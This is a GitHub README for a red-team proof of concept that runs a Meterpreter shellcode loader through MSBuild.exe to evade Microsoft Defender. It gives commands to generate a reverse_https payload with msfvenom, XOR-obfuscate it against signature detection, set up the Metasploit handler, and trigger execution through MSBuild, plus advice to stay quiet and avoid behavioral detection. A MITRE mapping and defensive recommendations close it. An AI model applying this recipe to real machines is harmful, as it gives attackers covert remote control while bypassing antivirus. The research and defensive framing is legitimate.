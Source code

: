 # Shellcode Loader via MSBuild-Compatible C# Application

## Overview

This repository contains a proof-of-concept red team activity that demonstrates how to execute a malicious payload in memory using `MSBuild.exe`, a trusted signed Windows binary. The project simulates a **Living Off the Land Binary** (LOLBin) attack technique in which a C# shellcode loader is compiled and executed through MSBuild, bypassing (temporarily) Microsoft Defender through in-memory execution and obfuscation.

The payload establishes a reverse HTTPS connection to a Metasploit C2 server. This technique aligns with [T1127.001 – Trusted Developer Utilities Proxy Execution: MSBuild](https://attack.mitre.org/techniques/T1127/001/) and is intended for educational and research purposes in a controlled environment.

## Disclaimer

This project is intended **strictly for educational and authorized security research purposes**. All activities must be conducted in a controlled, isolated environment with proper authorization.

    Do not use these techniques on systems you do not own or lack explicit permission to test. Unauthorized use may violate laws and ethical guidelines, and could result in disciplinary or legal action.

The author assumes no responsibility for misuse or damage resulting from the use of this code.

## Prerequisites

To successfully compile and execute this project, the following tools and environment configurations are required:

- Windows 10 Pro virtual machine
- Microsoft Visual Studio with `.NET Framework 4.7.2` or higher installed
- Access to `MSBuild.exe` (commonly located under Visual Studio installation path)
- Metasploit Framework installed on a Linux-based attack machine
- Working knowledge of C#, MSBuild, and basic red team operations
- Network configuration that allows reverse HTTPS communication between victim and C2 server

This project was tested in a QEMU Virtual Machine with an `non-activated Windows 10 Pro Version 22H2 and OS build 19045.2965`.

## Files

This project includes three primary files required for execution. Each plays a critical role in the simulation workflow.

### C# Shellcode Loader

The C# program used in this simulation serves as a minimalist shellcode loader, purpose-built to be executed through MSBuild.exe as part of a Living Off the Land Binary (LOLBin) strategy. Its primary objective is to allocate executable memory within the current process, decrypt a malicious payload from an external file, and execute it in-memory via a newly created thread. This approach is particularly effective for bypassing Microsoft Windows Defender, as it avoids writing executables to disk and leverages native Windows API calls, often trusted by endpoint protection systems

It performs the following actions:

- Reads and decrypts an XOR-obfuscated payload from config.bin
- Dynamically loads native Windows API functions (NtAllocateVirtualMemory, CreateThread)
- llocates executable memory in the current process
- Copies the shellcode to memory and executes it in a new thread

**The shellcode is never written to disk after decryption**, allowing for stealthy in-memory execution.

### MSBuild Project File

The C# build file used in this simulation is an MSBuild project file, defined in XML format. It serves as a build automation script that instructs MSBuild.exe (the Microsoft Build Engine) on how to compile and execute the C# shellcode loader. Functionally, it plays a role similar to a Makefile in C/C++ development environments.

Executing this file with MSBuild.exe triggers both compilation and execution phases. This enables execution through a trusted binary, facilitating LOLBin abuse and Defender evasion.

### Encrypted Payload

The final component of the attack chain is the malicious payload, which is responsible for establishing a reverse shell to a remote Command and Control (C2) server. This payload is generated using the ‘msfvenom’ utility, a standard tool from the Metasploit Framework used to craft custom shellcode for various platforms and architectures

To generate the raw payload we use the following command:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker-ip> LPORT=<port> -f raw -o config.bin
```

To encrypt the payload, we use the following command:

```bash
xxd -p config.bin | tr -d '\n' | fold -w2 | while read byte; do printf "%02x" $(( 0x$byte ^ 0xAA )); done | xxd -r -p > config.bin
```

A quick explanaition of each part of the encryption script:

- `xxd -p config.bin`: Converts the binary file `config.bin` into a plain hexadecimal string with no addresses.
- `tr -d '\n'`: Removes all newlines from the hex string to create a continuous byte stream.
- `fold -w2`: Breaks the string into two-character groups
- **while; do; done block**: Reads each byte, applies XOR with 0xAA, and prints the result in two-digit hexadecimal format.
- `xxd -r -p > config.bin`: Converts the hex stream back into binary format and writes it back to `config.bin`

This simple obfuscation helps temporarily bypass static signature detection by antivirus software such as Microsoft Defender. This approach doesn’t offer strong cryptographic protection, therefore, more robust encryption schemes like AES are recommended for more advanced attacks.

## roof of Concept Execution

1. On your Kali Linux or Metasploit-enabled system, run:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <your-ip>
set LPORT <your-port>
run -j
```

2. On the target Windows machine, execute the .csproj file using MSBuild.

```ps
"C:\Program Files\Microsoft Visual Studio\2022\Community\MSBuild\Current\Bin\MSBuild.exe" main.csproj /p:Configuration=Release /t:Run
```

3. Once the session is active, interaction with the system is possible using Meterpreter. However, minimal activity is recommended to avoid triggering Defender’s behavioral detection,

## Mitre Att&ck Mapping

This proof of concept simulates several tactics and techniques as defined in the MITRE ATT&CK Framework, commonly associated with real-world adversary behavior:

|      **Tactic**     |                             **Technique**                            |                                        **Justification**                                        |
|:-------------------:|:--------------------------------------------------------------------:|:-----------------------------------------------------------------------------------------------:|
|   Defense Evasion   | T1127.001 – Trusted Developer Utilities Proxy Execution: MSBuild     | The payload is compiled and executed via `MSBuild.exe`, a trusted signed Windows binary.        |
|   Defense Evasion   | T1027.013 -  Obfuscated Files or Information: Encrypted/Encoded File | The shellcode is XOR-obfuscated to bypass static signature detection by antivirus tools.        |
|   Defense Evasion   | T1027.009 - Obfuscated Files or Information: Embedded Payloads       | The shellcode is loaded into memory from an encrypted file and executed without writing to disk post-load. |
|   Defense Evasion   | T1620 - Reflective Code Loading                                      | The shellcode is dynamically loaded into memory and executed from a new thread within the same process using native Windows API functions.            |
| Command and Control | T1071.001 - Application Layer Protocol: Web Protocols (HTTPS)        | TThe payload establishes a reverse HTTPS session with the attacker's Metasploit handler.       |

## Defensive Recommendations

To detect and mitigate techniques demonstrated in this proof of concept, defenders should adopt a layered security approach that incorporates both prevention and detection strategies. Below are key recommendations.

- Implement behavioral monitoring to detect LOLBin abuse
- Use Sysmon or EDR solutions to monitor:
   - Execution of uncommon binaries like MSBuild.exe outside development environments
   - Memory allocation with `PAGE_EXECUTE_READWRITE` permissions
   - Thread creation from suspicious memory regions
- Enforce application whitelisting using tools like AppLocker or Windows Defender Application Control (WDAC) to block execution of `MSBuild.exe` by non-developer users or not allowed/common environments.
- Monitor and restrict access to developer tools on systems where they are not explicitly required.
- Inspect outbound HTTPS traffic for patterns resembling reverse shell connections
- Use proxy logging and TLS inspection (where appropriate) to monitor C2-like behavior
- Monitor Windows Defender and Event Viewer logs for behavior-based detections
